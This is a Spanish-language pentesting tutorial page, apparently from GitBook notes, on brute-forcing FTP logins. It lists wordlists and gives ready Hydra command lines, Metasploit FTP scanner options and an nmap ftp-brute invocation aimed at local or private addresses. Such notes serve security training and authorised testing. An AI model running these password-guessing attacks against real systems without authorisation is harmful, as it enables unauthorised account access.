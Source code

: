 ```yaml
---
description: En esta página aprenderás a enumerar y hacer fuerza bruta ante el servicio FTP
coverY: 0
---
```


# FTP

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio FTP, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```
hydra -l user -P passwords.txt ftp://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio FTP no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```
hydra -l user -P passwords.txt ftp://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```
hydra -L users.txt -p Password123 ftp://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minuscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasandole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```
hydra -L users.txt -P passwords.txt ftp://127.0.0.1 -t 15
```

{% hint style="info" %}
El con el parámetro`-t` le indicamos el número de hilos que queremos emplear
{% endhint %}

### Metasploit

Para esto, usaremos el modulo "FTP Authentication Scanner". Deberemos de configurar las siguientes opciones:

* USERNAME -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASSWORD -> En el caso de que usemos una contraseña concreta
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* RHOSTS -> IP de la máquina victima

### Nmap

Podemos usar nmap para hacer una pequeña fuerza bruta al servicio FTP. En este caso, usaremos el script "`ftp-brute`" pasándole como argumentos el diccionario de usuarios:

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p 21 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

